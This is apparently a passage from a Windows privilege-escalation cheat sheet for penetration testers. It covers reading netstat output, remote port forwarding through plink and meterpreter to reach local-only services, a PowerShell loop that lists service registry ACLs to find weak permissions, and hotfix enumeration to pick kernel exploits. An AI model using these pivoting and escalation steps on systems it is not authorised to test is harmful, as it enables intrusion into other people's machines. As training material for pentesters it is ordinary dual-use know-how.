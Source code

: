 Look for **LISTENING/LISTEN**. Compare that to the scan you did from the outside.
Does it contain any ports that are not accessible from the outside?
If that is the case, maybe you can make a remote forward to access it.

    # Port forward using plink
    plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

    # Port forward using meterpreter
    portfwd add -l <attacker port> -p <victim port> -r <victim ip>
    portfwd add -l 3306 -p 3306 -r 192.168.1.101
    So how should we interpret the netstat output?

### Local address 0.0.0.0
Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

### Local address 127.0.0.1
Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. This is interesting to us!

### Local address 192.168.1.9
Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. This is also interesting to us!

### Service exploits
    $RegistryOutput = @()
    (Get-ChildItem 'HKLM:\SYSTEM\CurrentControlSet\Services\').name.Substring(53) | ForEach-Object {
        $Name = $_
        $ACL = Get-Acl hklm:\System\CurrentControlSet\services\$Name 
        $RegistryOutput += [PSCustomObject]@{
            Name = $Name
            ACL  = $ACL.AccessToString 
            } 
        }
    $RegistryOutput | fl

## Kernel exploits
Kernel exploits should be our last resource, since it might but the machine in an unstable state or create some other problem with the machine.

##### Identify the hotfixes/patches**

    systeminfo
    # or
    wmic qfe get Caption,Description,HotFixID,InstalledOn
